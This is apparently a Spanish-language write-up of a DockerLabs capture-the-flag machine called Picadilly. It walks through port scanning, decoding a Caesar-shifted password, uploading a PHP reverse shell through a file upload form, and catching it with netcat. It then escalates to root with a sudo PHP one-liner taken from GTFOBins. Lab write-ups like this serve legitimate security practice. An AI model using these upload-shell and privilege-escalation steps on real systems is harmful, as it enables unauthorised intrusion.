 ```yaml
---
title: DockerLabas Writeuo Headless
published: true
---
```


![logo](../assets/images-Picadilly/logo.png)

-----------------------
# [](#header-1)Reconocimiento

# [](#header-4)Nmap


```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.88.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 21:02 -03
Initiating ARP Ping Scan at 21:02
Scanning 10.88.0.2 [1 port]
Completed ARP Ping Scan at 21:02, 0.04s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 21:02
Scanning 10.88.0.2 [65535 ports]
Discovered open port 443/tcp on 10.88.0.2
Discovered open port 80/tcp on 10.88.0.2
Completed SYN Stealth Scan at 21:02, 0.86s elapsed (65535 total ports)
Nmap scan report for 10.88.0.2
Host is up, received arp-response (0.0000070s latency).
Scanned at 2024-07-24 21:02:18 -03 for 0s
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE REASON
80/tcp  open  http    syn-ack ttl 64
443/tcp open  https   syn-ack ttl 64
MAC Address: AE:AB:06:6A:71:FC (Unknown)
```
Como vemos encontramos el puerto 80 y 443 estos dos puertos tienen una pagina web
```bash
❯ nmap -p80,443 -sCV 10.88.0.2 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-24 21:04 -03
Nmap scan report for 10.88.0.2
Host is up (0.000045s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.59
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 215   2024-05-18 01:19  backup.txt
|_
443/tcp open  ssl/http Apache httpd 2.4.59 ((Debian))
|_http-title: Picadilly
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.59 (Debian)
| ssl-cert: Subject: commonName=50a6ca252ff4
| Subject Alternative Name: DNS:50a6ca252ff4
| Not valid before: 2024-05-18T06:29:06
|_Not valid after:  2034-05-16T06:29:06
|_ssl-date: TLS randomness does not represent time
MAC Address: AE:AB:06:6A:71:FC (Unknown)
```
Vamos a la pagina web por el puerto 80 donde tenemos capacidad de directory listing que tiene un recurso llamado backup.txt

![Pasted image 20240724210723.png](../assets/images-Picadill/Picadilly1.png)

Este recurso vemos que hay una contraseña que esta en cifrado cesar 

![Pasted image 20240724210859.png](../assets/images-Picadilly/Picadilly2.png)

A esto lo podemos descifrar de la siguiente manera
```bash
❯ echo "hdvbfuadcb" | tr 'a-z' 'x-za-w'
easycrxazy
```
y si queremos practicar un poquito de scripting en bash podemos realizar el siguiente script, para probar todas las combinatorias de desplazamiento e ir viendo los mensajes desencriptados 


```bash
 encrypted_message="hdvbfuadcb" 
 for shift in {1..25}; do echo -n "Desplazamiento $shift: " echo "$encrypted_message" | tr $(echo {a..z} | sed -r 's/ //g') $(echo {a..z} | sed -r "s/ //g;s/(.{$shift})(.*)/\2\1/") 
done
```
Lo ejecutamos
```bash
❯ ./decrypt.sh
Desplazamiento 1: hdvbfuadcb
Desplazamiento 2: iewcgvbedc
Desplazamiento 3: jfxdhwcfed
Desplazamiento 4: kgyeixdgfe
Desplazamiento 5: lhzfjyehgf
Desplazamiento 6: miagkzfihg
Desplazamiento 7: njbhlagjih
Desplazamiento 8: okcimbhkji
Desplazamiento 9: pldjncilkj
Desplazamiento 10: qmekodjmlk
Desplazamiento 11: rnflpeknml
Desplazamiento 12: sogmqflonm
Desplazamiento 13: tphnrgmpon
Desplazamiento 14: uqioshnqpo
Desplazamiento 15: vrjptiorqp
Desplazamiento 16: wskqujpsrq
Desplazamiento 17: xtlrvkqtsr
Desplazamiento 18: yumswlruts
Desplazamiento 19: zvntxmsvut
Desplazamiento 20: awouyntwvu
Desplazamiento 21: bxpvzouxwv
Desplazamiento 22: cyqwapvyxw
Desplazamiento 23: dzrxbqwzyx
Desplazamiento 24: easycrxazy
Desplazamiento 25: fbtzdsybaz
```
Veremos si esta contraseña va en la otra pagina web que corre por el puerto 443, pero como vemos no hay pagina de login pero si de subida de archivos 

![Pasted image 20240724215121.png](../assets/images-Picadilly/Picadilly3.png)

Probaremos esta subida de archivo para ver si nos deja subir un php malicioso que nos otorgue una reverse shell o nos permita ejecutar comando, veremos que nos reporta whatweb sobre esta pagina


```bash
❯ whatweb https://10.88.0.2:443
https://10.88.0.2:443 [200 OK] Apache[2.4.59], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.59 (Debian)], IP[10.88.0.2], Title[Picadilly]
```
Vemos que nos descubre gran cosa por lo que procedemos a subir un php malicioso que nos otorgue  una reverse shell, vamos a github y descargamos [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) y lo editamos con nuestra Ip y puerto de escucha

![Pasted image 20240724221912.png](../assets/images-Picadilly/Picadilly4.png)

ahora subimos el archivo y nos ponemos en escucha por el puerto 443

![Pasted image 20240724222013.png](../assets/images-Picadilly/Picadilly5.png)

Vemos que el archivo se sube pero no, nos lo interpreta por lo tanto probamos si es que hay una ruta llamda uploads, vemos que efectivamente si existe

![Pasted image 20240724222923.png](../assets/images-Picadilly/Picadilly6.png)

Una vez que clickeamos el archivo que subimos vermos que nos otorga una reverse shell


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.10.111] from (UNKNOWN) [10.88.0.2] 51338
Linux eae50915364f 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64 GNU/Linux
 01:28:47 up  2:02,  0 user,  load average: 0.12, 0.35, 0.83
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
ahora hacemos un tratamiento de la tty
```bash
$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@eae50915364f:/$ ^Z
zsh: suspended  nc -nlvp 443

❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```

#### Privelege Escalation
Tenemos el usuario mateo y como de antes desciframos su contraseña vamos a pivotar a este usuario
```bash
www-data@eae50915364f:/home$ ls
mateo
```
A la contraseña debemos hacerle un pequeño cambio, esto tienen que hacerlo con pura intuicion
```bash
www-data@eae50915364f:/home$ su mateo
Password: 
su: Authentication failure
www-data@eae50915364f:/home$ su mateo  
Password: 
su: Authentication failure
www-data@eae50915364f:/home$ su mateo 
Password: 
mateo@eae50915364f:/home$ 
```
Ahora veremeos como hacemos para escalar a root

### Root
Vemos que tenemos capacidad para ejecutar el comando php como sudo, y a esto lo vamos a estar ejecutando como root
```bash
mateo@eae50915364f:/home$ id
uid=1000(mateo) gid=1000(mateo) groups=1000(mateo)
mateo@eae50915364f:/home$ sudo -l 
Matching Defaults entries for mateo on eae50915364f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mateo may run the following commands on eae50915364f:
    (ALL) NOPASSWD: /usr/bin/php
mateo@eae50915364f:/home$ 
```
Si buscamos en [GTFOBins](https://gtfobins.github.io/gtfobins/php/#sudo) vemos que podemos escribir el siguiente comando para darnos una bash como root
![Pasted image 20240724224506.png](../assets/images-Picadilly/Picdailly7.png)
entonces ejecutamos este comando que va a crear una variable CMD lo que va hacer es que vale /bin/bash luego ejecutando el privilegio sudo va hacer una llamada a nivel de sistema a esta variable CMD
```bash
mateo@eae50915364f:/home$ CMD="/bin/bash"
sudo php -r "system('$CMD');"
root@eae50915364f:/home# whoami
root
root@eae50915364f:/home# 
```
